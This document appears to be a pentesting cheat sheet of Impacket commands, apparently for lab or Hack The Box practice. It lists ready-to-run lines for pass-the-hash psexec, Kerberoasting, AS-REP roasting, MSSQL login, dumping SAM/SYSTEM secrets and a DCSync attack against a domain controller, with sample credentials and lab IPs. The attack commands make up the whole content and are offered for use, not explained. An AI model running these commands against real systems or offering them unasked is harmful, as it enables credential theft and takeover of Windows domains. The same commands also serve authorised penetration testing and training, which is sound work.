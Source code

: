
### IMPACKET-COLLECTION


psexec
```
impacket-psexec -hashes 00000000000000000000000000000000:2a944a58d4ffa77137b2c587e6ed7626 maria@10.10.10.20
```
Kerberos

```
impacket-GetUserSPNs corp.com/meg:'Passw0rd' -dc-ip 10.10.10.20 -outputfile hashes.kerb￼￼
```
AS-REP Roast

```￼￼
impacket-GetNPUsers corp.com/meg:'Passw0rd' -dc-ip 10.10.10.20 -outputfile dave.hash
```
Mssql
```￼
impacket-mssqlclient sequel.htb/rose:Passw0rd@10.10.10.20 -windows-auth
```
SAM&SYSTEM DUMP

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
DCsync ATTACK
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"Passw0rd"@10.10.10.20
```
